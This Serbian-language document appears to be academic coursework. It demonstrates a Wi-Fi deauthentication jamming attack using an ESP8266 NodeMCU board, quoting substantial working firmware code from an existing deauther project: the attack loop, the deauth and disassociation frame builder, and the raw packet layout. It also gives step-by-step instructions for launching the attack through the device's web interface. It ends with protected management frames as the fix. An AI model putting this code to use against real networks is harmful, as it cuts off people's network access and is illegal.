

# Wi-Fi jamming

U ovom dokumentu je prikazano sprovođenje [Wi-Fi jamming napada](analiza-pretnji.md#wi-fi-jamming). Ovi napadi se oslanjaju na upotrebu Wi-Fi jammer-a, odnosno uređaja koji preplavljuju mrežu radio frenkvencijama, kako bi istu onesposobili da prima podatke.


*Wi-Fi jamming uređaji*

<br>

Kako se cene ovih uređaja kreću po nekoliko stotina, pa i hiljada dolara, a pritom je njihova upotreba nelegalna, za akademske potrebe izvođenja ovog napada upotrebljen je ESP8266 mikročip [1][2] na NodeMCU tabli [3]. 

NodeMCU je platforma za izradu prototipova IoT projekata koja se zasniva na ESP8266 mikročipu. Ova platforma omogućava pisanje softvera u različitim jezicima kao što su Lua, C++ i MicroPython, što pruža fleksibilan razvoj. NodeMCU sadrži ESP8266 Wi-Fi mikročip, koji ima ugrađen TCP/IP modul, što mu omogućava da se poveže na Wi-Fi mrežu i izvršava jednostavne TCP/IP konekcije.

ESP8266 mikročip, srce NodeMCU platforme, je niskobudžetni Wi-Fi mikročip sa punim TCP/IP stekom i mikrokontrolerskom funkcionalnošću. Proizveden je od strane Espressif Systems-a, kompanije iz Šangaja, koja se bavi proizvodnjom čipova, IoT i cloud rešenjima. Sa malim dimenzijama i niskom potrošnjom energije, ovaj čip je pogodan za projekte gde su prostor i energetska efikasnost ključni. 

Zbog svoje pristupačne cene, ESP8266 je privukao mnoge hakere da istražuju čip i softver na njemu.


*NodeMCU ESP8266*

<br>

## Napad

Za razliku od standardnog Wi-Fi jamming napada, koji šalje radio frekvencije koje se sukobljavaju sa uređajima, ovaj napad se zasniva na slanju deauthentication frame-ova (okvira) [4]. Deauthentication frame je tip paketa definisan u IEEE 802.11 Wi-Fi standardu. Bio je deo standarda od samog početka i još uvek ima važnu ulogu. Predstavlja poruku koja se šalje između uređaja i Wi-Fi rutera, koja efektivno kaže "prekidamo našu Wi-Fi vezu". U normalnim okolnostima, ova poruka se koristi za sigurno i ispravno prekidanje veze između uređaja i rutera.

<br>

Deauthentication frame spada u Wi-Fi management frame-ove. U sledećoj tabeli je prikazana struktura deauthentication frame-a [4]:


| Polje                      | Opis/Informacije  |
|----------------------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Frame Control Field        | Ovo je prvo polje u svakom Wi-Fi frame-u. Sadrži nekoliko bitova koji definišu tip i podtip okvira (u ovom slučaju, deauthentication).                                                        |
| Duration Field             | Ovo polje određuje vreme koje je potrebno da se paket u potpunosti prenese i da se potvrdi njegov prijem.                                                                                     |
| Addresses                  | Postoje dve bitne MAC adrese u deauthentication frame-u: Receiver Address (RA), odnosno adresa uređaja koji prima frame, i Transmitter Address (TA). odnosno adresa uređaja koji šalje frame. |
| Sequence Control Field     | Sadrži informacije o sekvenci, odnosno fragmentima frame-a. Koristi se za praćenje redosleda prijema frame-ova.                                                                               |
| Reason Code                | Ovo polje sadrži kod koji objašnjava razlog deautentikacije.                                                                                                                                  |
| Frame Check Sequence (FCS) | Polje za kontrolu grešaka koje se nalazi na kraju svakog frame-a. Koristi se za proveru integriteta prenesenih podataka.                                                                      |


Postoji preko 50 kodova [4] za razloge deautentifikacije. Neki od njih su Unspecified reason, Previous authentication no longer valid, Disassociated due to inactivity, itd.

<br>

Sve što je potrebno od informacija za ovaj napad je MAC adresa pošiljaoca ili primaoca, koja se vrlo lako može dobiti skeniranjem Wi-Fi uređaja u blizini. Lako je poslati deauth paket, a kada ga ciljni uređaj primi, on mora da prekine svoju vezu. Uređaj se može odmah ponovo povezati, naravno, i to može učiniti veoma brzo, možda čak i bez da korisnik primeti da je veza ikada bila prekinuta. Ali, ako se paketi šalju neprekidno, mreža postaje zatrpana, odnosno dolazi do jamming napada. Tada je pristup mreži blokiran za vreme trajanja napada.

<br>

### Priprema i implementacija

Kako se ovaj napad oslanja na ubotrebu ESP8266 čipa, pre svega je potrebno na njega ubaciti firmware, to jest kod koji će izvršavati prethodno opisani napad, odnosno skeniranje Wi-Fi mreža, a potom i kontinualno slanje deauthentication frame-ova. Da bi se to postiglo, prvo je potrebno povezati uređaj na računar, običnom USB konekcijom, a potom mu ubaciti kod, upotrebom nekog razvojnog okruženja za mikrokontrolere, kao što je Arduino IDE [5].

U narednom delu su prikazani određeni isečci koda ovog malicioznog programa [6], uz njihovo pojašnjenje.

Glavni fajl ovog programa je esp8266_deauther.ino. On počinje ubacivanjem neophodnih biblioteka i deklarisanjem globalnih varijabli koje se koriste u programu:

```cpp
#include "src/ArduinoJson-v5.13.5/ArduinoJson.h"
#if ARDUINOJSON_VERSION_MAJOR != 5
#error Please upgrade/downgrade ArduinoJSON library to version 5!
#endif

#include "oui.h"
#include "language.h"
#include "functions.h"
#include "settings.h"
#include "Names.h"
#include "SSIDs.h"
#include "Scan.h"
#include "Attack.h"
#include "CLI.h"
#include "DisplayUI.h"
#include "A_config.h"

#include "led.h"

// Run-Time Variables //
Names names;
SSIDs ssids;
Accesspoints accesspoints;
Stations     stations;
Scan   scan;
Attack attack;
CLI    cli;
DisplayUI displayUI;

simplebutton::Button* resetButton;

#include "wifi.h"

uint32_t autosaveTime = 0;
uint32_t currentTime  = 0;

bool booted = false;
```

Nakon globalne konfiguracije, u fajlu sledi setup funkcija. Njena glavna svrha je učitavanje konfiguracije programa i pokretanje Wi-Fi modula u režimu koji omogućava praćenje saobraćaja, odnosno skeniranje mreža. Pored toga, ova funkcija postavlja korisnički interfejs koji se kasnije koristi za upravljanje napadom.

```cpp
void setup() {
    // for random generator
    randomSeed(os_random());

    // start serial
    Serial.begin(115200);
    Serial.println();

    // start SPIFFS
    prnt(SETUP_MOUNT_SPIFFS);
    // bool spiffsError = !LittleFS.begin();
    LittleFS.begin();
    prntln(/*spiffsError ? SETUP_ERROR : */ SETUP_OK);

    // Start EEPROM
    EEPROMHelper::begin(EEPROM_SIZE);

#ifdef FORMAT_SPIFFS
    prnt(SETUP_FORMAT_SPIFFS);
    LittleFS.format();
    prntln(SETUP_OK);
#endif // ifdef FORMAT_SPIFFS

#ifdef FORMAT_EEPROM
    prnt(SETUP_FORMAT_EEPROM);
    EEPROMHelper::format(EEPROM_SIZE);
    prntln(SETUP_OK);
#endif // ifdef FORMAT_EEPROM

    // Format SPIFFS when in boot-loop
    if (/*spiffsError || */ !EEPROMHelper::checkBootNum(BOOT_COUNTER_ADDR)) {
        prnt(SETUP_FORMAT_SPIFFS);
        LittleFS.format();
        prntln(SETUP_OK);

        prnt(SETUP_FORMAT_EEPROM);
        EEPROMHelper::format(EEPROM_SIZE);
        prntln(SETUP_OK);

        EEPROMHelper::resetBootNum(BOOT_COUNTER_ADDR);
    }

    // get time
    currentTime = millis();

    // load settings
    #ifndef RESET_SETTINGS
    settings::load();
    #else // ifndef RESET_SETTINGS
    settings::reset();
    settings::save();
    #endif // ifndef RESET_SETTINGS

    wifi::begin();
    wifi_set_promiscuous_rx_cb([](uint8_t* buf, uint16_t len) {
        scan.sniffer(buf, len);
    });

    // start display
    if (settings::getDisplaySettings().enabled) {
        displayUI.setup();
        displayUI.mode = DISPLAY_MODE::INTRO;
    }

    // load everything else
    names.load();
    ssids.load();
    cli.load();

    // create scan.json
    scan.setup();

    // dis/enable serial command interface
    if (settings::getCLISettings().enabled) {
        cli.enable();
    } else {
        prntln(SETUP_SERIAL_WARNING);
        Serial.flush();
        Serial.end();
    }

    // start access point/web interface
    if (settings::getWebSettings().enabled) wifi::startAP();

    // STARTED
    prntln(SETUP_STARTED);

    // version
    prntln(DEAUTHER_VERSION);

    // setup LED
    led::setup();

    // setup reset button
    resetButton = new ButtonPullup(RESET_BUTTON);
}
```

Na kraju ovog fajla se nalazi glavna, odnosno loop funkcija. Ona regularno osvežava komponente sistema kao što su LED status, korisnički interfejs, status napada, skenirane mreže, itd. Pored toga, ova funkcija upravlja i reset opcijom, odnosno omogućava sistemu da se resetuje ukoliko se pritisne dugme.

```cpp
void loop() {
    currentTime = millis();

    led::update();   // update LED color
    wifi::update();  // manage access point
    attack.update(); // run attacks
    displayUI.update();
    cli.update();    // read and run serial input
    scan.update();   // run scan
    ssids.update();  // run random mode, if enabled

    // auto-save
    if (settings::getAutosaveSettings().enabled
        && (currentTime - autosaveTime > settings::getAutosaveSettings().time)) {
        autosaveTime = currentTime;
        names.save(false);
        ssids.save(false);
        settings::save(false);
    }

    if (!booted) {
        booted = true;
        EEPROMHelper::resetBootNum(BOOT_COUNTER_ADDR);
#ifdef HIGHLIGHT_LED
        displayUI.setupLED();
#endif // ifdef HIGHLIGHT_LED
    }

    resetButton->update();
    if (resetButton->holding(5000)) {
        led::setMode(LED_MODE::SCAN);
        DISPLAY_MODE _mode = displayUI.mode;
        displayUI.mode = DISPLAY_MODE::RESETTING;
        displayUI.update(true);

        settings::reset();
        settings::save(true);

        delay(2000);

        led::setMode(LED_MODE::IDLE);
        displayUI.mode = _mode;
    }
}
```

<br>

Fajlovi koji su takođe jako bitni za posmatranje su Attack.h i Attack.cpp, jer se u njima nalazi implementacija ovog napada. Unutar Attack.cpp se nalaze start i stop funkcije, koje, kako im ime kaže, pokreću, odnosno zaustavljaju napad. Najbitniji tok ovog fajla je onaj koja se poziva iz glavne loop funkcije, to jest poziv update funkcije. Ona proverava da li je napad u toku, i ukoliko jeste, poziva deauthUpdate funkciju:

```cpp
void Attack::deauthUpdate() {
    if (!deauthAll && deauth.active && (deauth.maxPkts > 0) && (deauth.packetCounter < deauth.maxPkts)) {
        if (deauth.time <= currentTime - (1000 / deauth.maxPkts)) {
            // APs
            if ((apCount > 0) && (deauth.tc < apCount)) {
                if (accesspoints.getSelected(deauth.tc)) {
                    deauth.tc += deauthAP(deauth.tc);
                } else deauth.tc++;
            }

            // Stations
            else if ((stCount > 0) && (deauth.tc >= apCount) && (deauth.tc < stCount + apCount)) {
                if (stations.getSelected(deauth.tc - apCount)) {
                    deauth.tc += deauthStation(deauth.tc - apCount);
                } else deauth.tc++;
            }

            // Names
            else if ((nCount > 0) && (deauth.tc >= apCount + stCount) && 
                    (deauth.tc < nCount + stCount + apCount)) {
                if (names.getSelected(deauth.tc - stCount - apCount)) {
                    deauth.tc += deauthName(deauth.tc - stCount - apCount);
                } else deauth.tc++;
            }

            // reset counter
            if (deauth.tc >= nCount + stCount + apCount) deauth.tc = 0;
        }
    }
}
```
Ova funkcija je važan deo implenetacije napada, jer kontroliše tok i učestalost slanja paketa. Ona prolazi kroz uređaje koji predstavljaju mete napada, i za njih poziva predviđene deauth funkcije (deauthStation, deauthAp i deauthName). Ove funkcije dalje pozivaju deauthDevice funkciju, u kojoj se konačno nalazi slanje deauth paketa. Funkcija kreira paket, postavlja mu MAC adresu i reason code, nakon čega modifikuje prvi bajt, odnosno postavlja mu vrednost na 0xc0, što zapravo postavlja deauthentication frame. Onda poziva sendPacket funkciju, koja zapravo šalje prethodno napravljeni paket.

```cpp
bool Attack::deauthDevice(uint8_t* apMac, uint8_t* stMac, uint8_t reason, uint8_t ch) {
    if (!stMac) return false;  // exit when station mac is null

    bool success = false;

    // build deauth packet
    packetSize = sizeof(deauthPacket);

    uint8_t deauthpkt[packetSize];

    memcpy(deauthpkt, deauthPacket, packetSize);

    memcpy(&deauthpkt[4], stMac, 6);
    memcpy(&deauthpkt[10], apMac, 6);
    memcpy(&deauthpkt[16], apMac, 6);
    deauthpkt[24] = reason;

    // send deauth frame
    deauthpkt[0] = 0xc0;

    if (sendPacket(deauthpkt, packetSize, ch, true)) {
        success = true;
        deauth.packetCounter++;
    }

    // send disassociate frame
    uint8_t disassocpkt[packetSize];

    memcpy(disassocpkt, deauthpkt, packetSize);

    disassocpkt[0] = 0xa0;

    if (sendPacket(disassocpkt, packetSize, ch, false)) {
        success = true;
        deauth.packetCounter++;
    }

    // send another packet, this time from the station to the accesspoint
    if (!macBroadcast(stMac)) { // but only if the packet isn't a broadcast
        // build deauth packet
        memcpy(&disassocpkt[4], apMac, 6);
        memcpy(&disassocpkt[10], stMac, 6);
        memcpy(&disassocpkt[16], stMac, 6);

        // send deauth frame
        disassocpkt[0] = 0xc0;

        if (sendPacket(disassocpkt, packetSize, ch, false)) {
            success = true;
            deauth.packetCounter++;
        }

        // send disassociate frame
        disassocpkt[0] = 0xa0;

        if (sendPacket(disassocpkt, packetSize, ch, false)) {
            success = true;
            deauth.packetCounter++;
        }
    }

    if (success) deauth.time = currentTime;

    return success;
}
```

Jedna od bitnijih stavki Attack.h fajla je definisanje strukture deauthentication frame-ova koji se šalju tokom napada.

```cpp
uint8_t deauthPacket[26] = {
            0xC0, 0x00, // type, subtype c0: deauth (a0: disassociate)
            0x00, 0x00, // duration (SDK takes care of that)
            0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, // reciever (target)
            0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, // source (ap)
            0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, // BSSID (ap)
            0x00, 0x00, // fragment & squence number
            0x01, 0x00  // reason code (1 = unspecified reason)
};
```

U navedenom kodu se tip frame-a postavlja da bude deauthentication, i upisuje se na bajtove 0 i 1. Trajanje paketa rešava SDK, i ne postavlja se manuelno. Ono se beleži na bajtovima 2 i 3. Na bajtove od 4 do 9 se postavlja MAC adresa primaoca, dok se na bajtove od 10 do 15 upisuje MAC adresa pošiljaoca. BSSID, odnosno MAC adresa Wi-Fi pristupne tačke se beleži na bajtove od 16 do 21. Fragment i sekvenca se upisuju automatski, i ne postavljaju se u kodu. Za njih su rezervisani bajtovi 22 i 23. Za kraj, na bajtove 24 i 25 se upisuje reason code. U ovom slučaju, ubeležen je 0x01, 0x00, što predstavlja "Unspecified Reason".

Implementacija ovog programa se u celosti može pogledati u navedenoj literaturi [6].

<br>

### Izvršavanje napada

Kada je firmware postavljen, i ESP8266 pokrenut, može se početi sa napadom. Kada se ESP8266 pokrene, potrebno je povezati se na njegovu mrežu. Tada, odlaskom na 192.168.4.1 se otvara korisnički interfejs preko koga se upravlja napadom. Na njemu su izlistane sve Wi-Fi mreže u okruženju, od kojih se mogu odabrati one koje će se napasti.



*Listanje Wi-Fi mreža*

Kada se mreža odabere, može se preći na ekran napada. Na njemu se nalazi START dugme koje pokreće prethodno opisani kod, i izvršava slanje deauthentication frame-ova na odabranu mrežu.


*Pokretanje napada*

Ubrzo, napadnuta Wi-Fi mreža će postati nedostupna i sasvim neupotrebljiva tokom trajanja ovog napada.


*Nemogućnost povezivanja na mrežu tokom trajanja napada*

<br>

### Rešenje

Srećom, sada postoje protected management frames [7] koji rešavaju ovaj problem. PMF omogućava bezbedan prenos deauthentication frame-ova, tako što pruža enkripciju istih i sprečava njihov spoofing. Takođe, sprovodi obostranu autentifikaciju, odnosno uređaj i Wi-Fi ruter moraju međusobno da se autentifikuju pre nego što se frame prihvati. Jedini problem ove funkcionalnosti je što još uvek nije široko sprovedena, te je većina 2.4GHz Wi-Fi mreža još uvek podložna ovom napadu.

<br>

## Literatura:

[1] https://www.espressif.com/en/products/socs/esp8266

[2] https://hackaday.com/2014/08/26/new-chip-alert-the-esp8266-wifi-module-its-5/

[3] https://github.com/nodemcu/nodemcu-devkit

[4] https://blog.spacehuhn.com/wifi-deauthentication-frame

[5] https://www.arduino.cc/en/software

[6] https://deauther.com/

[7] https://www.wi-fi.org/knowledge-center/faq/what-are-protected-management-frames